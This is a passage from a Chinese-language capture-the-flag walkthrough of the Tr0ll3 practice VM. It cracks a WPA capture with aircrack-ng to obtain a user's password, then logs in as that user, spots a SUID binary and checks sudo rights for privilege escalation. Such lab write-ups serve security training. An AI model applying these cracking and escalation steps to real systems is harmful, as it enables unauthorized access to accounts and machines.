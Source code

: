 ```
aircrack-ng -w gold_star.txt wytshadow.cap
```

![image-20220718145030854](../../.gitbook/assets/image-20220718145030854.png)

wytshadow用户爆破出密码为`gaUoCe34t1`

```
start@Tr0ll3:/tmp$ su wytshadow
Password: 
wytshadow@Tr0ll3:/tmp$ id
uid=1003(wytshadow) gid=1003(wytshadow) groups=1003(wytshadow)
```

如果我们查看 的主目录`wytshadow`，该文件会`oohfun`立即引起我们的注意。该文件设置了 SUID 位，它允许我们以用户的权限运行程序`genphlux`。

```
wytshadow@Tr0ll3:~$ ls -al
total 40
drwx------  4 wytshadow wytshadow 4096 Aug  2  2019 .
drwxr-xr-x 10 root      root      4096 Jun 19  2015 ..
-rw-r--r--  1 wytshadow wytshadow  220 Jun 17  2015 .bash_logout
-rw-r--r--  1 wytshadow wytshadow 3637 Jun 17  2015 .bashrc
drwx------  2 wytshadow wytshadow 4096 Jun 17  2015 .cache
drwx------  3 wytshadow wytshadow 4096 Aug  1  2019 .gnupg
-rwsrwxrwx  1 genphlux  root      8566 Jun 17  2015 oohfun
-rw-r--r--  1 wytshadow wytshadow  675 Jun 17  2015 .profile
```

查看sudo列表

```
wytshadow@Tr0ll3:~$ sudo -l
[sudo] password for wytshadow: 
Matching Defaults entries for wytshadow on Tr0ll3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wytshadow may run the following commands on Tr0ll3:
    (root) /usr/sbin/service nginx start
```
